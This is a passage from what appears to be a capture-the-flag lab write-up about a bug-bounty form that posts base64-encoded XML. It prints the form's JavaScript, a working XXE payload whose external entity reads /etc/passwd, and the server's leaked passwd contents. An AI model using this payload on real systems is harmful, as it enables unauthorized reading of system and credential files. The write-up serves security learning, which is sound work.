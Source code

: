 Looking at the JavaScript code that posted the data confirmed that it was just sending XML to the server.

```js
function returnSecret(data) {
	return Promise.resolve($.ajax({
            type: "POST",
            data: {"data":data},
            url: "tracker_diRbPr00f314.php"
            }));
}

async function bountySubmit() {
	try {
		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>${$('#exploitTitle').val()}</title>
		<cwe>${$('#cwe').val()}</cwe>
		<cvss>${$('#cvss').val()}</cvss>
		<reward>${$('#reward').val()}</reward>
		</bugreport>`
		let data = await returnSecret(btoa(xml));
  		$("#return").html(data)
	}
	catch(error) {
		console.log('Error:', error);
	}
}
```

This looked like it could be vulnerable to [XXE (XML External Entity)](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing). To test it, I created a test payload and encoded it with [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')URL_Encode(true)&input=). 


```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>&xxe;</title>
<cwe>bbb</cwe>
<cvss>1</cvss>
<reward>10000</reward>
</bugreport>
```

I sent it to the server. And the response contained the `/etc/passwd` file. 

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```